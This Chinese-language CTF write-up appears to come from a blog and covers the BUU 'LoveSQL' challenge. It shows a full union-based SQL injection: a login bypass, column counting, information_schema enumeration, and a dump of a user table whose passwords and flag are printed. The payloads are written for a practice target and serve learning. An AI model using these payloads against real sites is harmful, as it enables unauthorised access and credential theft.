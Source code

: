 ```yaml
---
{"dg-publish":true,"title":"BUU_[极客大挑战 2019]LoveSQL 1","dg-path":"安全/靶场/BUU_[极客大挑战 2019]LoveSQL 1.md","permalink":"/安全/靶场/BUU_[极客大挑战 2019]LoveSQL 1/","dgPassFrontmatter":true}
---
```



![Pasted image 20240805172328.png](/img/user/picture/Pasted%20image%2020240805172328.png)
进去就是一个登录界面


随便输入一下
![Pasted image 20240805172439.png](/img/user/picture/Pasted%20image%2020240805172439.png)
发现他是通过url进行传输的

这个后端一定是一个select查询语句
我们尝试将其加上引号来闭合一下语句看一下可不可行


```url
/check.php
?username=111 ' or 1 %23
&password=111
```

> [!NOTE] 注意
> 注意`#`号在url中应写为`%23`


![Pasted image 20240805172857.png](/img/user/picture/Pasted%20image%2020240805172857.png)
发现这里显示成功登陆，并且输出了admin和他的密码(虽然这个两个数据没什么用)

猜测应该是将语句带入数据库查询，如果查询结果不为空，则输出第一个查询结果，如果为空，则输出`# NO,Wrong username password！！！`

下面进行简单测试:
`?username=111 ' or 1 limit 0,1 %23`时还是显示admin
`?username=111 ' or 1 limit 1,1 %23`时显示`# NO,Wrong username password！！！`，猜测这个表中只有一个用户admin
虽然这一步没什么用，但是由于现在由于SQL注入不太熟练，所以感觉应该多思考一下，而不是知识专注于解题


接下来就要用`order by`来知道后端查询语句究竟是select几个值

发现
`?username=admin ' order by 3 %23`时正常显示
`?username=admin ' order by 4 %23`时报错
![Pasted image 20240805174123.png](/img/user/picture/Pasted%20image%2020240805174123.png)
所以只有3个值


接下来我们使用`union`联合查询查看回显位
`?username=111 '  union select 1,2,3 %23`
![Pasted image 20240805174303.png](/img/user/picture/Pasted%20image%2020240805174303.png)
注意，这里username不能设置为admin，因为如果设置为admin，会导致查出来的结果有两个，一个是admin，一个是1，2，3
前端会显示第一个，也就是只会显示admin，所以我们要写一个不存在的用户名


接下来我们查看数据库名
`?username=111 '  union select 1,database(),3 %23`
![Pasted image 20240805174531.png](/img/user/picture/Pasted%20image%2020240805174531.png)
知道数据库名为`geek`


接下来我们查看表名
`?username=111 '  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() %23`
注意这条查询语句放在2号位会报错
![Pasted image 20240805174726.png](/img/user/picture/Pasted%20image%2020240805174726.png)
知道有两个数据库
`geekuser` `l0ve1ysq1`

猜测我们想要的信息在`l0ve1ysq1`中，而`geekuser`这个是登陆查询的表

接下来我们查看每个表的列名
`?username=111 '  union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='geekuser'%23`
![Pasted image 20240805174951.png](/img/user/picture/Pasted%20image%2020240805174951.png)

`?username=111 '  union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23`
![Pasted image 20240805175017.png](/img/user/picture/Pasted%20image%2020240805175017.png)

发现两个表的列名都是一样的，都是`id` `username` `password`



接下来查看表中的内容
首先是`l0ve1ysq1`表
`?username=111 '  union select 1,2,group_concat(CONCAT_WS(' ', id, username, password) SEPARATOR ', ') FROM l0ve1ysq1 %23`
![Pasted image 20240805181140.png](/img/user/picture/Pasted%20image%2020240805181140.png)
也就是
```
1 cl4y wo_tai_nan_le, 
2 glzjin glzjin_wants_a_girlfriend, 
3 Z4cHAr7zCr biao_ge_dddd_hm, 
4 0xC4m3l linux_chuang_shi_ren, 
5 Ayrain a_rua_rain, 
6 Akko yan_shi_fu_de_mao_bo_he, 
7 fouc5 cl4y, 
8 fouc5 di_2_kuai_fu_ji, 
9 fouc5 di_3_kuai_fu_ji, 
10 fouc5 di_4_kuai_fu_ji, 
11 fouc5 di_5_kuai_fu_ji, 
12 fouc5 di_6_kuai_fu_ji, 
13 fouc5 di_7_kuai_fu_ji, 
14 fouc5 di_8_kuai_fu_ji, 
15 leixiao Syc_san_da_hacker, 
16 flag flag{9c5e3c2a-44a0-4009-b3ca-dc9186c337df}
```
找到了flag


下面查看一下表`geekuser`,看看是不是只有一个admin数据
![Pasted image 20240805181347.png](/img/user/picture/Pasted%20image%2020240805181347.png)
果然是











